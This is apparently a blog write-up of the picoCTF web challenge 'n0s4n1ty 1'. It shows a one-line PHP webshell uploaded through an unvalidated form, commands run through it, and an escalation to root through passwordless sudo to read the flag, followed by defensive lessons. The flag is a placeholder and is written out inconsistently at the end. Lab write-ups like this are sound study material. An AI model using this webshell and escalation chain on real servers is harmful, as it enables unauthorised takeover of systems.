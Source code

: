 ```yaml
---
layout: post
title: "picoCTF - n0s4n1ty 1"
date: 2025-04-20
categories: [CTF, Web, picoCTF, File Upload, RCE]
---
```


## Overview

This picoCTF challenge presented a PHP-based web server with a file upload feature. I identified a lack of file validation, which allowed me to upload a malicious PHP webshell, gain Remote Code Execution (RCE), and eventually escalate privileges to capture the flag.

---

## Step 1: Initial Recon

The server allowed file uploads without strong validation. I suspected it lacked MIME type or file content checks.
![Initial Recon](/assets/img/picoctf/noinsanity1/img1.png)

I created a simple PHP webshell:

**shell.php**

```php
<?php system($_GET['cmd']); ?>
```

I uploaded the file successfully and accessed it at:
![Shell Upload](/assets/img/picoctf/noinsanity1/img2.png)

```
http://standard-pizzas.picotf.net:57142/uploads/shell.php
```

---


## Step 2: Gaining Remote Code Execution

To verify code execution, I ran:

```
http://standard-pizzas.picotf.net:57142/uploads/shell.php?cmd=ls+-al
```
![RCE Success](/assets/img/picoctf/noinsanity1/img3.png)

The output showed that commands were executed on the server under the `/uploads` directory as the `www-data` user.

---

## Step 3: Privilege Escalation

### 1. Search for SUID Binaries

I ran this to check which binaries run as their owner (usually root) regardless of who executes them:

```bash
find / -perm -4000 -type f 2>/dev/null
```

Key result:

```
/usr/bin/sudo
```
![SUID Results](/assets/img/picoctf/noinsanity1/img4.png)


### 2. Check Sudo Permissions

```bash
sudo -l
```

Output:

```
(ALL) NOPASSWD: ALL
```
![Sudo Permissions](/assets/img/picoctf/noinsanity1/img5.png)


This meant I could run **any command as root** with `sudo` and **no password required**.

### 3. Read the Flag

```bash
sudo cat /root/flag.txt
```

Flag obtained

```
picoCTF{example_flag_here}
```

---

## Conclusion

This challenge was a great example of a classic **file upload vulnerability** that led to full **server takeover**. Once RCE was achieved via a PHP shell, enumeration and misconfigured sudo permissions allowed for **easy privilege escalation**.



Lessons:

- Always validate uploaded file types and contents.
- Disable execution permissions in upload directories.
- Restrict `sudo` access tightly.

**Flag:** `picoCTF{picoCTF{example_flag_here}}`

